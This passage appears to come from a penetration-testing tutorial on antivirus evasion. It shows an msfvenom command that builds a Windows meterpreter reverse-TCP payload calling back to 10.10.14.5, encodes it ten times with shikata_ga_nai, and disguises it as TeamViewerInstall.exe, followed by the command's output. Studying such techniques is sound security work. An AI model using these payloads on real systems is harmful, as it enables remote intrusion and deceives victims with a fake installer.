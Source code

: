 <figure><img src="../../../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

One better option would be to try running it through multiple iterations of the same Encoding scheme:

```shell-session
$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe

Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai succeeded with size 449 (iteration=3)
x86/shikata_ga_nai succeeded with size 476 (iteration=4)
x86/shikata_ga_nai succeeded with size 503 (iteration=5)
x86/shikata_ga_nai succeeded with size 530 (iteration=6)
x86/shikata_ga_nai succeeded with size 557 (iteration=7)
x86/shikata_ga_nai succeeded with size 584 (iteration=8)
x86/shikata_ga_nai succeeded with size 611 (iteration=9)
x86/shikata_ga_nai chosen with final size 611
Payload size: 611 bytes
Final size of exe file: 73802 bytes
Error: Permission denied @ rb_sysopen - /root/Desktop/TeamViewerInstall.exe
```
